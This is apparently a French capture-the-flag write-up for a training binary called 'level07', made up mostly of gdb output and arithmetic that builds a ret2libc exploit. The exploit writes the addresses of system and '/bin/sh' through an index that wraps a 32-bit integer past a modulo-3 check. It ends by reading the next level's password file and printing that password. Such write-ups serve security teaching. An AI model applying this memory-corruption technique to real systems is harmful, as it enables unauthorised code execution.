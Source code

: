 1. En ecrivant la source on comprend que l'on peut ecrire sur des zones memoires a l'aide du programme. La seule condition est de ne pas donner un index multiple de 3 ou dont la division par `16777216` donne `183`.

2. Sachant cela et le fait que les variables d'environnement sont bzero, on va faire un RET2LIBC.

```
(gdb) b *0x08048636

(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048636 in store_number ()

(gdb) x $ebp+0x8
0xffffd400:	0xffffd424

(gdb) info function puts
[...]
0x080484c0  puts

(gdb) disas 0x080484c0
Dump of assembler code for function puts@plt:
   0x080484c0 <+0>:	jmp    *0x804a014
   0x080484c6 <+6>:	push   $0x28
   0x080484cb <+11>:	jmp    0x8048460
End of assembler dump.

(gdb) info proc map
0xf7e2c000...0xf7fd0000

(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec

(gdb) info functions system
0xf7e6aed0  system

(gdb) b *0x080489f1 
(gdb) c
[...]
quit

Breakpoint 2, 0x080489f1 in main ()

(gdb) x/wx $esp
0xffffd5c8:	0xf7e45513
```

> Adresse de "/bin/sh" `0xf7f897ec = 4160264172`
> Adresse de system    `0xf7e6aed0 = 4159090384`
> Offset de l'EIP      `0xffffd5c8 - 0xffffd400 = 456` donc `114`

```
// On ne peut pas utiliser 114
114 % 3 == 0

// On va donc overflow l'uint32
0xffffffff / 4 + 114 + 1 = 1073741938

// On verifie
1073741938 % 3 = 1
```

> Number : `4160264172`
> Index : `116`
> Number : `4159090384`
> Index : `1073741938`

```
cat /home/users/level08/.pass
```

> Pass : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
